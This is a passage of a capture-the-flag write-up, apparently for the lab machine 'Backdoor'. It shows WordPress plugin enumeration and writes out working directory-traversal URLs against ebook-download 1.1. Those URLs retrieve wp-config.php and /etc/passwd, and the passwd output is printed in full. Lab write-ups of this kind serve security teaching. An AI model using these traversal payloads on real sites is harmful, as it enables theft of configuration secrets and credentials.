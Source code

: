 and then adding this line:

```
10.10.11.125  backdoor.htb
```

All this does is bring us to what seems to be the same site. 

It looks like they're leaving directory listing on, which should make it easier to manually enumerate stuff like plugins and themes. Going to `/wp-content/` shows the directory listing.

If we go to [http://backdoor.htb/wp-content/plugins/](http://backdoor.htb/wp-content/plugins/), we can see that there's a plugin called `ebook-download`.

Going into that folder shows us a file called `readme.txt`. Opening it describes a plugin that can be used to allow people to download your ebook if they put in an email address. It also shows that the version that's running is version 1.1.

Some quick googling for "wordpress ebook download exploit" shows that there's a [directory traversal vulnerability](https://www.exploit-db.com/exploits/39575) in version 1.1.

The vulnerability works by simply going to the right URL. Here's the sample exploit path:

```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

If we add our domain onto the front, we get this

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

If we put this URL into our browser, we get back a download of the `wp-config` file!

## User

Going to this URL gets us the `/etc/passwd` file
```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
```